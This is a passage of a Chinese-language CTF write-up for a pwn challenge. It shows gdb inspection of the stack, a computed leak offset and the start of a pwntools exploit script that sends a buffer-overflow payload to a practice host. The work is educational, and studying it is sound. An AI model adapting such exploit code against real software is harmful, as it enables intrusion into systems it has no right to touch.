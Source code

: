 看一下现在栈上写入'aaaaaaaa'的地址

```plain
x/8gx 0x7fffffffdea0
```

[![](assets/1701612132-5b6316a0576c999958432aeca726c40b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001523-44a4b7d2-3d19-1.png)

这里显然就是栈上的位置了，所以我们这样其实就泄露了栈地址

```plain
0x7fffffffdfb8-0x7fffffffdea0=0x118
```

我们现在已经知道了偏移量了，现在就是不知道这个地址到写入binsh的电地址的距离，可以利用vuln()中的write打印出来。

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",27757)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

vuln=elf.symbols['vuln']
leak('vuln',vuln)

gadget=0x00000000004004DA
syscall_ret=0x0000000000400517

pl='a'*0x10+p64(vuln)
s(pl)
```